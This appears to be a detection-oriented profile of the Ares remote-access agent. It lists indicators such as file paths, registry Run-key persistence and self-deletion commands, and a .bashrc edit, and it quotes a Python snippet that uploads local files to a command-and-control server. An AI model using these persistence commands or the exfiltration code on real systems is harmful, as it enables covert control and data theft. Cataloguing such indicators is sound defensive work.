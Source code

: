 | File Creation (Linux)   | ~/.ares/failed_connections                                                                                                           | [Update Consecutive Failed Connections](#update_consecutive_failed_connections) |
| Directory Creation (Windows)   | %USERPROFILE%\ares                                                                                                          | [Persiste](#persiste) |
| Directory Creation (Linux)   | ~\.ares                                                                                                          | [Persiste](#persiste) |
| Process Creation (Windows)   | reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /f /v ares /t REG_SZ /d %USERPROFILE%\ares\[AgentName]                                                                                                           | [Persiste](#persiste) |
| Process Creation (Windows)   | reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /f /v ares                                                                                                           | [Persiste](#persiste) |
| Process Creation (Windows)   | reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce /f /v ares /t REG_SZ /d "cmd.exe /c del /s /q %USERPROFILE%\ares & rmdir %USERPROFILE%\ares"                                                                                                           | [Persiste](#persiste) |
| Process Creation (Linux)   | chmod +x                                                                                                           | [Persiste](#persiste) |
| Process Creation (Linux)   | grep -v .ares .bashrc > .bashrc.tmp;mv .bashrc.tmp .bashrc                                                                                                           | [Persiste](#persiste) |

## Capabilities

### Download Files

- Description: Downloads a file to the agent host through HTTP(S)
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L169
- Indicators:
  - TBD

### Upload Files

- Description: Uploads a local file to the server
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L155
- Indicators:
  - Send `POST` request to the C2 with the following URL: `http(s)://[SERVER_IP]/api/USERNAME_[UUID]/upload`

    ```python
    try:
        if os.path.exists(file) and os.path.isfile(file):
            self.send_output("[*] Uploading %s..." % file)
            requests.post(config.SERVER + '/api/' + self.uid + '/upload',
                files={'uploaded': open(file, 'rb')})
    ```

  - The request is sent with the default `USER-AGENT` of the `requests` package: `python-requests/(Version)`

### Zip Files

- Description: Zips a folder or file
- Source Reference:
  - https://github.com/sweetsoftware/Ares/blob/master/agent/agent.py#L241
- Indicators:
  - TBD
